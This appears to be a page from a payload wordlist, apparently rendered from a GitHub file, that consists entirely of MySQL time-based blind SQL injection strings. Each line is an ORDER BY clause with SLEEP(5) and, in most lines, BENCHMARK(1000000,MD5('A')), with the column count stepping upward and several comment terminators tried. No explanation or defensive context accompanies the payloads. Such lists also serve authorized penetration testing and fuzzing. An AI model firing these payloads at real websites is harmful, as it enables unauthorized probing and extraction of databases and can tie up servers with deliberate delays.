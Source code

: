 ```
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30
 ORDER BY SLEEP(5)#
 ORDER BY 1,SLEEP(5)#
 ORDER BY 1,SLEEP(5),3#
 ORDER BY 1,SLEEP(5),3,4#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30#
 ORDER BY SLEEP(5)-- 
 ORDER BY 1,SLEEP(5)-- 
 ORDER BY 1,SLEEP(5),3-- 
 ORDER BY 1,SLEEP(5),3,4-- 
```